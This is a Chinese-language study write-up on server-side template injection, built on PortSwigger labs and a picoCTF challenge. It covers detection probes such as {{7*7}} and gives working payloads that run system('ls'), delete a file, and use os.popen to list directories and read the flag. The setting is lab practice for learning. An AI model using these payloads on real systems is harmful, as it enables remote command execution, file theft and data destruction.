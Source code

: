 # Server-Side Template Injection

https://portswigger.net/web-security/server-side-template-injection/exploiting

對 Twig, FreeMarker 等框架做 injection

## 機制
```php
$output = $twig->render($_GET['custom_email'],  array("first_name" => $user.first_name) );
```
注入
```
custom_email={{7*7}}

49
```
### 步驟
1. 檢查 SSTI: 注入 `{{5*2}}` 看會不會回傳 `10`
2. 檢查框架
  - {{7*'7'}} would result in 49 in Twig
  - {{7*'7'}} would result in 7777777 in Jinja2
3. 

## Demo
### Lab1
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic <br>
測試一下，可以發現 message 可以被注入 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=7*7%%3E <br>
> 49

之後就開找檔案 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20system(%22ls%22)%20%%3E <br>
> morale.txt true

之後達成條件：刪除 morale.txt <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20File.delete("morale.txt")%20%%3E <br>
> Lab success

### Lab2
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context
記得用 lab 需求的帳密登入，一開始沒看到戳超久QQ <br>
進入後，可以發現 Preferred name 送出封包為 user.name()，看起來有 SSTI，於是就簡單測了一下
```
blog-post-author-display=7*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```

```
blog-post-author-display=dir(__builtins__)&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```

### picoCTF SSTI1
payload
```twig
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

result
```
.: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc
```
payload
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

